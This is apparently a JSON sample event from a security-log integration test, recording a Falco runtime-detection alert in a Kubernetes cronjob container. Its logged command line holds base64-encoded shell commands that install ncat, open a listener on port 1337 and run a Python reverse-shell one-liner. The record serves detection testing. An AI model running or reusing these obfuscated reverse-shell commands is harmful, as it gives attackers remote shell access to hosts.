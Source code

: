 ```json
        "original": "{\"category\":\"runtime\",\"content\":{\"fields\":{\"container.image.repository\":\"docker.io/library/python\",\"container.name\":\"shell-scripting\",\"evt.res\":\"SUCCESS\",\"evt.type\":\"execve\",\"group.gid\":\"0\",\"group.name\":\"root\",\"proc.args\":\"\",\"proc.cmdline\":\"sh\",\"proc.cwd\":\"/\",\"proc.exepath\":\"/usr/bin/dash\",\"proc.hash.sha256\":\"f5adb8bf0100ed0f8c7782ca5f92814e9229525a4b4e0d401cf3bea09ac960a6\",\"proc.name\":\"sh\",\"proc.pcmdline\":\"bash -c echo IyEvYmluL2Jhc2gKYXB0IHVwZGF0ZSAteTsgYXB0IGluc3RhbGwgLXkgbmNhdApuYyAtbHYgMTMzNyAmCg== | base64 -d | sh; echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMC4wLjAuMCIsMTMzNykpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bihbInNoIiwgIi1jIiwgInNsZWVwIDU7bHMgLWE7IGV4aXQgMCJdKScK | base64 -d | sh\",\"proc.pid\":\"1372469\",\"proc.pid.ts\":\"1743822001115100312\",\"proc.pname\":\"bash\",\"proc.ppid\":\"1372453\",\"proc.ppid.ts\":\"1743822000952432134\",\"proc.sid\":\"1\",\"user.loginname\":\"\\u003cNA\\u003e\",\"user.loginuid\":\"-1\",\"user.name\":\"root\",\"user.uid\":\"0\"},\"origin\":\"Secure UI\",\"output\":\"Custom rule. The shell-scripting with image docker.io/library/python by parent bash under user root (proc.name=sh proc.exepath-custom=/usr/bin/dash proc.pname=bash gparent=runc ggparent=containerd-shim gggparent=systemd image=docker.io/library/python user.uid=0 proc.cmdline=sh proc.pcmdline=bash -c echo IyEvYmluL2Jhc2gKYXB0IHVwZGF0ZSAteTsgYXB0IGluc3RhbGwgLXkgbmNhdApuYyAtbHYgMTMzNyAmCg== | base64 -d | sh; echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMC4wLjAuMCIsMTMzNykpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bihbInNoIiwgIi1jIiwgInNsZWVwIDU7bHMgLWE7IGV4aXQgMCJdKScK | base64 -d | sh user.name=root user.loginuid=-1 proc.args= container.name=shell-scripting evt.type=execve evt.res=SUCCESS proc.pid=1372469 proc.cwd=/ proc.ppid=1372453 proc.sid=1 proc.exepath=/usr/bin/dash user.loginname=\\u003cNA\\u003e group.gid=0 group.name=root proc.pid.ts=1743822001115100312 proc.ppid.ts=1743822000952432134 proc.hash.sha256=f5adb8bf0100ed0f8c7782ca5f92814e9229525a4b4e0d401cf3bea09ac960a6)\",\"policyId\":10569534,\"ruleName\":\"My test rule custom\",\"ruleSubType\":0,\"ruleTags\":[\"My-tag-custom-1-hello-world\",\"MITTRE-WHATEVER\"],\"ruleType\":6,\"type\":\"workloadRuntimeDetection\"},\"description\":\"This is just a dumb policy to test custom policies\",\"engine\":\"falco\",\"id\":\"1a334cdef0060123456789abcdef64a9\",\"labels\":{\"cloudProvider.account.id\":\"012345678912\",\"cloudProvider.name\":\"gcp\",\"cloudProvider.region\":\"us-central1\",\"container.image.digest\":\"sha256:aa7b73608abcfb021247bbb4c111435234a0459298a6da610681097a54ca2c2a\",\"container.image.id\":\"ef0f72a55bd2\",\"container.image.repo\":\"docker.io/library/python\",\"container.image.tag\":\"3.9.18-slim\",\"container.label.io.kubernetes.container.name\":\"shell-scripting\",\"container.label.io.kubernetes.pod.name\":\"shell-scripting-29063700-123ab\",\"container.label.io.kubernetes.pod.namespace\":\"default\",\"container.name\":\"shell-scripting\",\"gcp.location\":\"us-central1\",\"gcp.projectId\":\"012345678912\",\"host.hostName\":\"gke-cluster-gcp-demo-san-default-pool-11234abc-abcd\",\"host.mac\":\"01:00:5e:90:10:00\",\"kubernetes.cluster.name\":\"gke-alliances-demo-6\",\"kubernetes.cronJob.name\":\"shell-scripting\",\"kubernetes.job.name\":\"shell-scripting-29063700\",\"kubernetes.namespace.name\":\"default\",\"kubernetes.node.name\":\"gke-cluster-gcp-demo-san-default-pool-12345678-abcd\",\"kubernetes.pod.name\":\"shell-scripting-12345678-123ab\",\"kubernetes.workload.name\":\"shell-scripting\",\"kubernetes.workload.type\":\"cronjob\"},\"name\":\"Manuel test policy\",\"originator\":\"policy\",\"rawEventCategory\":\"runtime\",\"rawEventOriginator\":\"linuxAgent\",\"severity\":4,\"source\":\"syscall\",\"sourceDetails\":{\"subType\":\"container\",\"type\":\"workload\"},\"timestamp\":1743822001115928600}",
        "outcome": "success",
        "provider": "syscall",
        "severity": 4,
        "type": [
            "info"
        ]
    },
    "host": {
        "hostname": "gke-cluster-gcp-demo-san-default-pool-11234abc-abcd",
        "mac": [
            "01-00-5E-90-10-00"
        ],
        "name": "gke-cluster-gcp-demo-san-default-pool-11234abc-abcd"
    },
    "input": {
        "type": "cel"
    },
```